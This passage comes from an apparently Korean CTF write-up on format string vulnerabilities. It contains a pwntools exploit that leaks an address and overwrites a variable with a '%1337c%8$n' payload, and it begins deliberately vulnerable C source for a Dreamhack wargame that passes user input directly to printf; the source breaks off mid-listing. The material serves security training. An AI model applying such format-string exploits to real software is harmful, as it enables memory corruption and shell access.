 `changeme`의 주소 직전까지의 글자 수가 총 16글자이므로 `changeme`의 주소는 `[rsp+0x10]`**에 위치**하게 된다. 따라서 **N**은 8이다.

최종적인 payload는 ‘`%1337c` **+** `%8$n` **+** `AAAAAA` **+** `changeme`**의 주소**’가 된다.

### Exploit

```python
from pwn import *

p = process("./fsb")
e = ELF("./fsb")

p.sendline("%8$p")
leaked = int(p.recvline()[:-1], 16)
code_base = leaked - e.symbols["__libc_csu_init"]
changeme = code_base + e.symbols["changeme"]

payload = "%1337c" + "%8$n" + "AAAAAA"
payload = payload.encode() + p64(changeme)

p.sendline(payload)
p.interactive()
```

- 앞서 언급한 방식으로 code base를 구한 뒤, `changeme`의 주소도 구한다.
- FSB payload를 작성할 때 address를 제외한 부분은 **string 형식으로 적은 뒤** `payload.encode()`와 같이 **string을 byte로 바꿔주는 과정**을 거쳐야 한다.

## Wargame: [basic_exploitation_002](https://dreamhack.io/wargame/challenges/4/)

문제의 소스 코드는 아래와 같다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

```